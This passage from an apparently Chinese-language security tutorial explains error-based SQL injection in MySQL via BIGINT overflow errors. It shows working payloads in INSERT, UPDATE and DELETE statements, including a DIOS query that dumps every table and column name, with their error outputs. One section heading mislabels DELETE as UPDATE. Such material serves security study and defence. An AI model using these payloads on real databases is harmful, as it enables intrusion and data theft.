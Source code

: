我们还可以使用DIOS查询。

```
insert into users (id, username, password) values (2, '' or !(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)-~0 or '', 'Eyre');
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual))) - ~(0))'

```

![enter image description here](http://drops.javaweb.org/uploads/images/01c8ea230aa57d0b7c177e29884296437dd5a543.jpg)

0x06 利用更新语句进行注入
===============

* * *

利用更新语句，我们照样可以进行类似的注入，具体如下所示：

```
mysql> update users set password='Peter' or !(select*from(select user())x)-~0 or '' where id=4;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

0x07 利用更新语句进行注入
===============

* * *

同样的，我们也可以利用删除语句进行注入，具体如下所示：

```
mysql> delete from users where id='1' or !(select*from(select user())x)-~0 or '';
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - ~(0))'

```

0x08 小结
=======

* * *

本文的攻击之所以得逞，是因为`mysql_error()`会向我们返回错误消息，只要这样，我们才能够利用它来进行注入。 这一功能，是在5.5.5及其以上版本提供的。对于这些溢出攻击，还有许多不同的形式。 例如：

```
mysql> select !1-0^222;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not(1)) - (0 ^ 222))'
mysql> select !(select*from(select user())a)-0^222;
ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((not((select 'root@localhost' from dual))) - (0 ^ 222))'

```
